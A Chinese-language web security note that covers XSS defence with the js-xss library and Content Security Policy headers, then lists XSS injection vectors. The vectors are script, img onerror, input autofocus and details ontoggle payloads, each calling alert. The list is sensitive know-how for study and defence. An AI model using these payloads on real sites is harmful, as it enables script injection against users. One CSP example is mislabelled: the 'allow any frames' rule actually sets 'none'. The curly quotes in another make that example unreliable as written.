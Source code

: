 #### 使用npm包来简化操作
[xss文档](https://github.com/leizongmin/js-xss/blob/master/README.zh.md)


### CSP 内容安全策略

CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。

通常可以通过两种方式来开启 CSP：
 - 设置 HTTP Header 中的 Content-Security-Policy
 - 设置 meta 标签的方式 `<meta http-equiv="Content-Security-Policy">`

以设置 HTTP Header 来举例
 - 只允许加载本站资源
```
Content-Security-Policy: default-src ‘self’
```
 - 图片只允许加载 HTTPS 协议
```
Content-Security-Policy: img-src https://*
```
 - 允许加载任何来源框架
```
Content-Security-Policy: child-src 'none'
```

[CSP](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP) ( Content Security Policy )


## XSS注入方法
参考链接：https://xz.aliyun.com/t/4067

### `<scirpt>`

    <scirpt>alert("xss");</script>

### `<img>`

    <img src=1 onerror=alert("xss");>

### `<input>`

    <input onfocus="alert('xss');">

    竞争焦点，从而触发onblur事件
    <input onblur=alert("xss") autofocus><input autofocus>

    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    <input onfocus="alert('xss');" autofocus>

### `<details>`

    <details ontoggle="alert('xss');">

    使用open属性触发ontoggle事件，无需用户去触发
    <details open ontoggle="alert('xss');">
